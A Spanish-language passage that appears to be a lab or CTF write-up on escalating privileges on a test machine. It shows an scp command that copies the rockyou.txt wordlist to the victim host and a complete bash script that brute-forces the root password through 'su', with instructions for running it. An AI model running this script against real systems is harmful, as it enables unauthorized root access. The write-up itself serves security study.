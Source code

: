 Podemos hacer fuerza bruta con los usuarios que están registrados en el equipo local con el fin de escalar privilegios, para ello haremos uso de bash scripting y del diccionario `rockyou.txt`.
Primero que nada debemos traernos el diccionario a la máquina víctima, ya sea montando un servidor `http` con python en nuestra máquina atacante o por ssh haciendo uso delcomando `scp`.

```
scp /usr/share/SecLists/rockyou.txt balutin@172.17.0.3:/tmp/
```

Y ahora, en el directorio `tmp`, haremos uso del siguiente script en bash:

```
#!/bin/bash  
echo "[*] Iniciando fuerza bruta contra 'su' con rockyou.txt"  
echo "[*] Diccionario: rockyou.txt"  
echo "[*] Esto puede tomar tiempo..."  
echo ""  
  
counter=0

cleanup(){
   echo ""
   echo "[!]Cancelando operación..."
   rm -rf touch.tmp 2>/dev/null
   exit 1
 }

 # (Ctrl+C)
 trap cleanup SIGINT

while IFS= read -r password; do  
    counter=$((counter + 1))  
      
    # Mostrar progreso cada 1000 intentos  
    if [ $((counter % 1000)) -eq 0 ]; then  
        echo "[*] Intentos realizados: $counter"  
    fi  
      
    # Probar la contraseña  
    echo "$password" | timeout 2 su -c 'echo "SUCCESS"' 2>/dev/null | grep -q "SUCCESS"  
      
    if [ $? -eq 0 ]; then  
        echo ""  
        echo "[+] ¡CONTRASEÑA DE ROOT ENCONTRADA!"  
        echo "[+] Contraseña: $password"  
        echo "[+] Intentos realizados: $counter"  
        exit 0  
    fi  
      
done < rockyou.txt  
  
echo "[-] Fuerza bruta completada. No se encontró la contraseña."  
echo "[-] Total de intentos: $counter"
```

```
nano bruteForce.sh
//pega el script
chmod +x bruteForce.sh
./bruteForce.sh
```

![[Pasted image 20250715193616.png]]

